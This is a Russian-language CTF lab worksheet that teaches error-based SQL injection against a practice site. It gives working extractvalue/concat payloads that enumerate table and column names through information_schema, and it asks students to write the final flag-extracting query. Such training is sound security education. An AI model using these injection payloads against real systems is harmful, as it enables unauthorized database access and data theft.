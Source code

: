 # Уязвимости 4 практика часть 1

**Сайт:** [http://errsql.myctf.ru](http://errsql.myctf.ru)

**Requirements:** Firefox + hackbar plugin

Данный сайт является примером эксплуатации уязвимости типа error-based.

Уязвимый код:

![image01](image01.jpg)

Какой вид sql инъекции можно использовать на этом сайте?

## 1) Пробуем авторизоваться, подставив в любое поле кaвычку (`'`), в результате чего получаем ошибку

## 2) Получаем список таблиц в текущей базе

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- 123
```

- Какой результат вы получили?
- Какой запрос вы предположительно получили?
- Разберите построчно, что именно вы сделали?

## 3) Получаем названия столбцов в найденной таблице

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='XXXXX' limit 0,1))) -- 123
```

- Какой результат вы получили?

## 4) Достаем флаг

Самостоятельно введите команду, которая выведет все значения из полученных в пунктах 2,3 базы данных и таблицы.

Какой флаг вы получили? ___________________